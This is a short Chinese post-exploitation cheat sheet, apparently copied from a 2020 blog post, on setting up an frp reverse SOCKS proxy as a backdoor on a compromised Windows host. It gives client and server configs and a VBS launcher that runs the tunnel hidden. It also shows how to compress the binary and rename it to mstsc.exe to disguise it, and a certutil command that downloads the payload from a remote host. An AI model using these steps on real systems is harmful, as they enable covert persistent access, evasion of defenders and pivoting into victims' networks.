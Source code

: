 # 后渗透 frp 创建反向socks代理

https://www.cnblogs.com/-mo-/p/12539341.htm 发布于 2020-03-21 14:50

后门文件配置：

```ini
#frpc.ini
[common]
server_addr = *.*.*.*
server_port = 7000
token = 123456

[socks_proxy]
type = tcp
remote_port =8888
plugin = socks5
```

```ini
#frps.ini
[common]
bind_addr =0.0.0.0
bind_port =7000
token = 123456
```

```python
#frpc.bat
frpc.exe -c frpc.ini

#frpc.vbs
Set ws = CreateObject("Wscript.Shell")
ws.run "cmd /c frpc.bat",vbhide
```

压缩解压:  
减少文件体积，提高文件上传速度，这里为了方便直接可以使用windows自带的压缩解压工具:

```bash
#压缩
makecab frpc.exe frpc.txt

#解压
expand C:\Users\RabbitMask\Desktop\test\frpc.txt C:\Users\RabbitMask\Desktop\test\mstsc.exe
```

远程下载:

```bash
certutil -urlcache -split -f http://192.168.1.1/frpc.txt  1.txt
```
